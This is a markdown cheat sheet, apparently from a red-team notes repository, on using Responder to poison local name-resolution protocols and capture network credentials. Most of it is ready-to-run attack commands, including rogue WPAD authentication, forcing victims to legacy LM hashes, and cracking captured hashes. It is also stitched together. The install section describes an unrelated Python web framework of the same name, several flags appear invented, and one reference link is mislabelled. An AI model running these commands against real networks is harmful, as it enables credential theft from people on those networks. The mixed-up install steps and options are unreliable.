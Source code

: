 # Responder🕵️‍♂️🔗
#Tool #RED #TTAD 

Responder is a powerful tool used for capturing network credentials and performing Man-in-the-Middle (MITM) attacks in internal networks. This guide will help you unleash Responder’s full potential! 🚀

**LINK TO TOOL DOCUMENTATION[ HERE](https://www.kali.org/tools/responder/)**

**Responder** is a tool for exploiting network services like LLMNR, NBT-NS, and MDNS to intercept network authentication requests. It is commonly used for network penetration testing.

---
![responder](https://www.kali.org/tools/responder/images/responder-logo.svg)

---
### Installing Responder

Responder is a fast and minimalistic web framework for Python. Follow these simple steps to install it:

#### Prerequisites
Ensure you have Python installed (preferably Python 3.7+). You can check your version with:

```sh
python --version
```

#### Installation
Install Responder using pip:

```sh
pip install responder
```

---

## 🧰 Common Commands

### 🔍 Start Responder
```bash
sudo responder -I eth0
```
Start Responder on a specific network interface.

### 📡 Enable Specific Services
```bash
sudo responder -I eth0 -w -r -f
```
Enable WPAD, rogue authentication, and fingerprinting services.

### 🔒 Disable Specific Services
```bash
sudo responder -I eth0 -dw
```
Disable WPAD while running Responder.

### 📜 Save Logs to a Custom Directory
```bash
sudo responder -I eth0 -l /path/to/logs
```
Specify a custom directory to save log files.

---

## ⚙️ Advanced Usage

### 🌐 Analyze Network Traffic Only
```bash
sudo responder -I eth0 -A
```
Run Responder in Analyze mode to passively monitor traffic.

### 🚀 Redirect Authentication Requests
```bash
sudo responder -I eth0 --lm
```
Force victims to authenticate using legacy LM hashes.

### 📂 Specify Custom Responder Config File
```bash
sudo responder -I eth0 -c /path/to/Responder.conf
```
Use a custom configuration file for advanced customization.

### 🧹 Clear Log Files
```bash
sudo responder -I eth0 -F
```
Delete all old log files before starting.

---

## 📋 Handy Options

| Option          | Description                                             |
|-----------------|---------------------------------------------------------|
| `-I`            | Specify the network interface to listen on              |
| `-A`            | Analyze mode (no rogue responses)                      |
| `-w`            | Enable WPAD rogue authentication                       |
| `-r`            | Enable rogue authentication                            |
| `-f`            | Fingerprint hosts                                      |
| `-d`            | Disable specific services (e.g., WPAD)                 |
| `-c`            | Specify custom Responder config file                   |
| `-F`            | Clear log files                                        |
| `-l`            | Save logs to a specific directory                      |
| `--lm`          | Force LM authentication                                |

---

## 🌐 Example Scenarios

### Scenario 1: Basic Credential Capture
```bash
sudo responder -I eth0
```
Intercept and capture credentials on the local network.

### Scenario 2: Passive Traffic Analysis
```bash
sudo responder -I eth0 -A
```
Analyze network traffic without sending rogue responses.

### Scenario 3: Custom Configuration
```bash
sudo responder -I eth0 -c /path/to/custom.conf
```
Run Responder with a custom configuration file.

---

## 🚀 Pro Tips

### 1️⃣ Combine with Crack Tools
After capturing hashes, use tools like **Hashcat** or **John the Ripper** to crack them.

### 2️⃣ Disable Unnecessary Services
Reduce noise by disabling unused Responder services, such as WPAD (`-dw`).

### 3️⃣ Automate Responder Logs
Automate the parsing of Responder logs to streamline post-capture analysis.

---

## 📚 References
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [LLMNR and NBT-NS Exploitation Guide](https://owasp.org/www-project-vulnerable-web-applications-directory/)

---

